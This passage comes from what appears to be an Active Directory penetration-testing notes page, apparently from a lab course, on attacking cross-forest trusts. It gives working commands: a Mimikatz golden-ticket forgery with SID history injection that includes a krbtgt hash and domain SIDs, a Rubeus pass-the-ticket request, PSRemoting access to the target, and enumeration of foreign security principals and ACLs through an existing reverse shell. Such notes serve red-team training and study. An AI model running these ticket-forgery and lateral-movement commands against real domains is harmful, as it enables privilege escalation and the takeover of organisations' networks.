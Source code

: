 Then perform SID history Injection / Create a TGT with SIDHIsotry of the Group EUAdmins:
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /ticket:C:\Users\Public\euvendornet.kirbi"'

Request a TGS:
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\euvendornet.kirbi /service:HTTP/euvendornet.euvendor.local /dc:euvendor-dc.euvendor.local /ptt

Access the euvendor-net machine using PSRemoting:
<strong>Invoke-Command -ScriptBlock{whoami} -ComputerName euvendornet.euvendor.local -Authentication NegotiateWithImplicitCredential 
</strong></code></pre>



## Cross Forest - Foreign Security Principals

### Description

* A Foreign Security Principal (FSP) represents a Security Principal in a external forest trust or special identities (like Authenticated Users, Enterprise DCs etc.).&#x20;
* Only SID of a FSP is stored in the Foreign Security Principal Container which can be resolved using the trust relationship.&#x20;
* FSP allows external principals to be added to domain local security groups. Thus, allowing such principals to access resources in the forest.&#x20;
* Often, FSPs are ignored, mis-configured or too complex to change/cleanup in an enterprise making them ripe for abuse.

### Tools

Let's enumerate FSPs for the db.local domain using the reverse shell we have there.

{% code overflow="wrap" %}
```powershell
Find-ForeignGroup -Verbose
Find-ForeignUser -Verbose

ADModule
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} 
```
{% endcode %}

## Cross Forest - ACLs

* Access to resources in a forest trust can also be provided without using FSPs using ACLs.
* Principals added to ACLs do NOT show up in the ForeignSecurityPrinicpals container as the container is populated only when a principal is added to a domain local security group.

Find-InterestingDomainAcl -Domain dbvendor.local

## $AD Certificate Service (CS)
